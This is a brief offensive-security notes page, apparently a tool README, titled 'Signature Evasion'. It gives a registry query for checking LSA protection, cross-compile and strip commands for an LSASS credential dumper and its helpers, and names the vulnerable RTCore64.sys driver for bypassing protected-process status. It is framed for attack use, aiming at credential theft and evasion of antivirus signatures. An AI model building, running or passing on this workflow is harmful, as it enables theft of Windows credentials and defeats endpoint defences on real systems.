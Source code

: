# Signature Evasion


- Vulnerable Drive PPL Bypass
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" | Select-Object RunAsPPL


### Dump That Ass

x86_64-w64-mingw32-g++ lsass_dumper.cpp -o lsass_dumper.exe -static
x86_64-w64-mingw32-g++ decode_lsass.cpp -o decode_lsass.exe -static
x86_64-w64-mingw32-g++ system_launcher.cpp -o system_launcher.exe -static

### Strip Debug Symbols

x86_64-w64-mingw32-strip lsass_dumper.exe


## Vulnerable Driver

https://www.loldrivers.io/drivers/e32bc3da-4db1-4858-a62c-6fbe4db6afbd/

RTCore64.sys


x86_64-w64-mingw32-g++ main.cpp -Iheaders -o lsass_dumper.exe -static

